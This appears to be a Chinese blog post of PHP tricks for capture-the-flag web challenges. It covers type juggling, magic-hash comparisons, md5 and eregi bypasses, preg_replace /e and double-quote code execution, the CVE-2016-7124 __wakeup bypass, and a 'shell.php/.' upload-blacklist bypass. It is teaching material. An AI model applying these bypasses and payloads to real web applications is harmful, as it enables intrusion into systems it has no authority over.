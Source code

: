 ```yaml
---
layout:     post
title:      "PHP 各种黑魔法"
subtitle:   ""
date:       2018-04-14 17:40:00
author:     "kuron3k0"
header-img: "img/home-bg-geek.jpg"
tags:
    - PHP
    - CTF
    - WEB
---
```


> 总结了一下关于在CTF中PHP的一些小技巧，今后会不断更新。
> 虽然现在的题目很少会用到了，但知道多点总是没坏处的。

## 弱类型
```php
<?php
//数字与字符串的转换
//输出 boolean true
$a = 0;
$b = '0asdf';
var_dump($a == $b);

//0和空值
//输出 boolean true
$a = 0;
$b = NULL;
var_dump($a == $b);
?>

```

## 科学记数法
```php
<?php

//输出 boolean true
$a = '0e3543';
$b = '0e1234';
var_dump($a == $b);

?>

```

## 函数
- md5()
```php
<?php
//http://xxxx?a[]=1&b[]=2
//md5对数组类型hash的时候会返回false
//输出 boolean true
$a = md5($_GET['a']);
$b = md5($_GET['b']);
var_dump($a == $b);

//把md5第二个参数设置为true，会将加密后字符串当成十六进制转换成字符
//输出 'or'6�]��!r,��b
echo md5('ffifdyop',true);

?>
```
- ereg()/eregi()截断
```php
<?php

//http://xxxx?a=abc;
//输出 boolean false
//http://xxxx?a=abc%00;
//输出 boolean true
var_dump(eregi('^[a-z]+$',$_GET[a]));

?>
```

- preg_replace()代码执行
```php
<?php

//pattern里使用参数e导致代码执行
preg_replace('/test/e','phpinfo()','test');

?>
```

- 对parse_url()参数检测的绕过


![](/img/in-post/post-php-trick/parse_url1.png)
*<center>两个斜杠</center>*

![](/img/in-post/post-php-trick/parse_url2.png)
*<center>三个斜杠</center>*

<font color=red size=2 face="黑体">注：在path前面的"/"到达一定数量之后，parse_url会忽略参数</font>

- mt_srand()伪随机数
用`php_mt_seed`即可算出种子
<br>


- is_numeric十六进制绕过
```php
<?php

var_dump(is_numeric('0xabcd'));
//输出 boolean true

?>
```

## 反序列化
- _wakeup()魔术方法的绕过
利用的是`CVE-2016-7124`
```php
<?php

class test{

    public $s = 'secret';

    function __construct(){
        
    }

    function __wakeup(){
        echo 'wakeup'.'<br>';
        $this->s = '';
    }

    function __destruct(){
        echo 'destruct '.$this->s.'<br>';
        
    }
}

$a = new test();
$serial = serialize($a).'<br>'; 
//O:4:"test":1:{s:1:"s";s:6:"secret";}


unserialize($serial);
//输出：
//wakeup
//destruct 
//可以看到反序列化先运行了__wakeup()函数

//但是如果把反序列化中参数的个数调整到比原本类的个数高的话，即可绕过wakeup
//即 O:4:"test":2:{s:1:"s";s:6:"secret";}
unserialize('O:4:"test":2:{s:1:"s";s:6:"secret";}');
//输出： 
//destruct secret
//没有运行wakeup


?>

```

- 双引号里的代码执行
```php
<?php

$a = "${system('whoami')}";

?>
```

## 文件上传
- shell.php/.
上传的文件名带/.的话，php解析器自动忽略掉，从而绕过黑名单